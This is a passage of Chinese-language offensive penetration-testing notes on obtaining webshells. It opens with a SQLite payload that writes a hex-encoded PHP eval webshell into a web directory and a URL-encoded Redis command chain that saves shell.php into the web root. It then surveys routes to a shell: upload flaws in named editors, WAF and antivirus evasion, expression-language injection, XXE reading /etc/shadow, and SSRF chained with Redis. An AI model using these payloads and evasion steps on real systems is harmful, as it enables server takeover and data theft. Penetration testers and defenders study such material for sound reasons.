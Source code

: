   * sqlite3
  
    ```sql
    ;attach database 'D:\\www\\008.php' as tt;
    create TABLE tt.exp (dataz text) ;
    insert INTO tt.exp (dataz) VALUES (x'3c3f70687020406576616c28245f504f53545b27636d64275d293b3f3e');
    ```
  
  * redis
  
    ```
    %0D%0Aconfig%20set%20dir%20%2Fvar%2Fwww%2Fhtml2F%0D%0Aconfig%20set%20dbfilename%20shell%2Ephp%0D%0Aset%20x%2022%3C%3Fphp%20phpinfo%28%29%3B%%203F%3E%22%0D%0Asave%0D%0A
    ```

### **上传文件获得webshell**

- 可以通过前后台进行上传，但无论是通过前台上传还是通过后台(通过口令进入或XSS到后台、逻辑漏洞越权等)上传点，在某些情况下可能需要结合一些Web server的解析漏洞。

- 上传漏洞能够直接getshell的漏洞，例如Joomla远程上传、Tomcat PUT上传，同时也有存在上传漏洞的编辑器可以getshell，例如FCK，Ewebeditor，UEditor。在这基础上，一般是由收集的信息反馈是否存在漏洞，再进一步达到利用的目的。而在这个过程中可能会涉及**逻辑绕过、WAF对抗、杀软绕过、执行层**，所要关注的有以下四点：

    * 代码或逻辑存在问题，可以上传脚本文件；

    * 躲过WAF对脚本文件以及对上传内容的校验；

    * 解决落地杀;

    * 执行过程中躲过流量监控或系统层监控


- 同时我们也可以考虑在上传插件情况将shell添加到安装的插件中上传服务器获得shell。

- 现在的java项目已经不使用jsp了，也就不存在webshell了，但是可以使用其他方法达到目的。

### **RCE getshell**

* Java系的OGNL表达式注入、EL注入、反序列化，jnid注入；
* PHP系列的eval类、伪协议类代码执行、system类命令执行等；

### **文件包含getwebshell**

- 很老的项目才有了。

### **漏洞组合拳getshell**


在某些时候一个漏洞即可getshell，但是有时候需要各种漏洞进行组合成功获取shell。

**XXE(+SSRF)**

- 
    XXE即XML外部实体注入攻击，最理想的状态就是直接可以代码执行（类似PHP expert）；大多数还是以文件读取信息收集为主，结合源码或者配置文件（例如/etc/shadow、tomcat-users.xml等）getshell；还可以通过XXE的SSRF(Server-Side Request For grey,服务器请求伪造)来getshell。 


**SSRF+RCE**

- 
    原理上SSRF可以结合所有RCE（反序列化、s2、mysql等）的漏洞进行组合利用，只是在平常实践中用SSRF+redis未授权用的更多。
